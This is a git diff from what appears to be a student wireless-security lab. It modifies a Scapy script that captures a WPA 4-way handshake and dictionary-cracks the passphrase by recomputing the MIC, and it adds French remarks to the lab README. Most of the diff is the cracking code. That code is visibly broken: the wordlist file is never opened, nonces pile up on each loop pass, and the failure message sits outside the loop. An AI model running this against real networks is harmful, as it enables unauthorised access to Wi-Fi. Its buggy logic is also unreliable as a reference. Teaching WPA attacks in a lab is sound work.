

Modification step 3

diff --git a/files/scairodump.py b/files/scairodump.py
@@ -73,56 +73,58 @@ def pkt_callback(pkt):
         pktList.append(pkt)
 
         if(len(pktList) == 4):
-            f= open("wordlist","r")
-            passPhrase = f.read()
-            nonces.append(pktList[0].getlayer(Raw).load.hex()[26:90])
-            nonces.append(pktList[1].getlayer(Raw).load.hex()[26:90])
+            passPhrase = f.readline()
+            while(passPhrase != ""):
+                nonces.append(pktList[0].getlayer(Raw).load.hex()[26:90])
+                nonces.append(pktList[1].getlayer(Raw).load.hex()[26:90])
 
-            APmac = a2b_hex((pktList[0][Dot11].addr3).replace(":",""))
-            Clientmac = a2b_hex((pktList[0][Dot11].addr1).replace(":", ""))
+                APmac = a2b_hex((pktList[0][Dot11].addr3).replace(":",""))
+                Clientmac = a2b_hex((pktList[0][Dot11].addr1).replace(":", ""))
 
-            mic_to_test = pktList[3].getlayer(Raw).load.hex()[154:-4]
+                mic_to_test = pktList[3].getlayer(Raw).load.hex()[154:-4]
 
-            #if(pkt.getlayer(Raw).load.hex()[25:26] == '0'):  # We want the messages which replay counter is 0
-            #    nonces.append(pkt.getlayer(Raw).load.hex()[26:90])
-            #if(pkt.getlayer(Raw).load.hex()[:6] == '02030a'): # We check if this is the last handshake packet     
-            #    APmac = a2b_hex((pkt[Dot11].addr3).replace(":",""))
-            #    Clientmac = a2b_hex((pkt[Dot11].addr1).replace(":", ""))
-            #    
-            #    mic_to_test = pkt.getlayer(Raw).load.hex()[154:-4]
-            print("[*] MIC found: " + mic_to_test)
+                #if(pkt.getlayer(Raw).load.hex()[25:26] == '0'):  # We want the messages which replay counter is 0
+                #    nonces.append(pkt.getlayer(Raw).load.hex()[26:90])
+                #if(pkt.getlayer(Raw).load.hex()[:6] == '02030a'): # We check if this is the last handshake packet     
+                #    APmac = a2b_hex((pkt[Dot11].addr3).replace(":",""))
+                #    Clientmac = a2b_hex((pkt[Dot11].addr1).replace(":", ""))
+                #    
+                #    mic_to_test = pkt.getlayer(Raw).load.hex()[154:-4]
+                print("[*] MIC found: " + mic_to_test)
 
-            # Important parameters for key derivation - most of them can be obtained from the pcap file
-            A           = "Pairwise key expansion" #this string is used in the pseudo-random function
+                # Important parameters for key derivation - most of them can be obtained from the pcap file
+                A           = "Pairwise key expansion" #this string is used in the pseudo-random function
 
-            # Authenticator and Supplicant Nonces
-            # We transform them to the correct encoding
-            ANonce      = a2b_hex(nonces[0])
-            SNonce      = a2b_hex(nonces[1])
+                # Authenticator and Supplicant Nonces
+                # We transform them to the correct encoding
+                ANonce      = a2b_hex(nonces[0])
+                SNonce      = a2b_hex(nonces[1])
 
-            # This is the MIC contained in the 4th frame of the 4-way handshake
-            # When attacking WPA, we would compare it to our own MIC calculated using passphrases from a dictionary
+                # This is the MIC contained in the 4th frame of the 4-way handshake
+                # When attacking WPA, we would compare it to our own MIC calculated using passphrases from a dictionary
 
-            B           = min(APmac,Clientmac)+max(APmac,Clientmac)+min(ANonce,SNonce)+max(ANonce,SNonce) #used in pseudo-random function
+                B           = min(APmac,Clientmac)+max(APmac,Clientmac)+min(ANonce,SNonce)+max(ANonce,SNonce) #used in pseudo-random function
 
[2 lines of base64/hex data omitted]
 
-            # calculate 4096 rounds to obtain the 256 bit (32 oct) PMK
-            passPhrase = str.encode(passPhrase)
+                # calculate 4096 rounds to obtain the 256 bit (32 oct) PMK
+                passPhrase = str.encode(passPhrase)
 
-            pmk = pbkdf2(hashlib.sha1,passPhrase, str.encode(ssid), 4096, 32)
-            
-            # expand pmk to obtain PTK
-            ptk = customPRF512(pmk,str.encode(A), B)
+                pmk = pbkdf2(hashlib.sha1,passPhrase, str.encode(ssid), 4096, 32)
+                
+                # expand pmk to obtain PTK
+                ptk = customPRF512(pmk,str.encode(A), B)
 
-            # calculate MIC over EAPOL payload (Michael)- The ptk is, in fact, KCK|KEK|TK|MICK
-            mic = hmac.new(ptk[0:16],data,hashlib.sha1)
+                # calculate MIC over EAPOL payload (Michael)- The ptk is, in fact, KCK|KEK|TK|MICK
+                mic = hmac.new(ptk[0:16],data,hashlib.sha1)
 
-            print(mic.hexdigest())
-            if mic.hexdigest()[:len(mic_to_test)] == mic_to_test:
-                print("[*] The passphrase (" + str(passPhrase) + ") is correct")
-            else:
-                print("[*] The passphrase: " + str(passPhrase) +" is not correct. Try with a different passphrase")
+                print(mic.hexdigest())
+                if mic.hexdigest()[:len(mic_to_test)] == mic_to_test:
+                    print("[*] The passphrase (" + str(passPhrase) + ") is correct")
+                    exit()
+                passPhrase = f.readline()
+            print("[*] The passphrase: " + str(passPhrase) +" is not correct. Try with a different passphrase")
+                    
 
 
 print("[*] Start sniffing...")

diff --git a/README.md b/README.md
@@ -43,6 +43,9 @@ Dans cette première partie, vous allez récupérer le script **Python3** [wpa_k
 - Analyser le fonctionnement du script. En particulier, __faire attention__ à la variable ```data``` qui contient la payload de la trame et la comparer aux données de la quatrième trame du 4-way handshake. Lire [la fin de ce document] pour l’explication de la différence.
 - __Modifier le script__ pour qu’il récupère automatiquement, à partir de la capture, les valeurs qui se trouvent actuellement codées en dur (```ssid```, ```APmac```, ```Clientmac```, nonces…) 
 
+**Remarque :** Dans le screenshot, on peut trouver toutes les informations tells que le ssid, APmac, Clientmac etc...
+
+![step2](images/wpa_key_derivation-Results.png)
 
 ### 2. Scaircrack (aircrack basé sur Scapy)
 
@@ -68,6 +71,8 @@ Utilisant le script [wpa_key_derivation.py](https://github.com/arubinst/HEIGVD-S
 **Note : un délai supplémentaire peut être accordé pour ce dernier exercice - contactez-nous si jamais. Le reste du labo est à rendre à la date indiquée**
 
 Modifier votre script de cracking pour qu’il soit capable de faire les mêmes opérations que le script précédant mais sans utiliser une capture Wireshark. Pour cela, il faudra donc sniffer un 4-way handshake utilisant Scapy et refaire toutes les opérations de la partie 2 pour obtenir la passphrase. Le script doit implémenter la possibilité de déauthentifier un client pour stimuler le 4-way handshake. Cette déauthentification doit aussi être implémentée avec Scapy.
+
+**Remarque:** On a essayé d'effectuer le challenge mais nous n'avons pas reussi à le faire fonctionner car les paquets doivent arriver dans le bon ordre et en même temps pour faire fonctionner le script
 
 ## Quelques éléments à considérer :
 
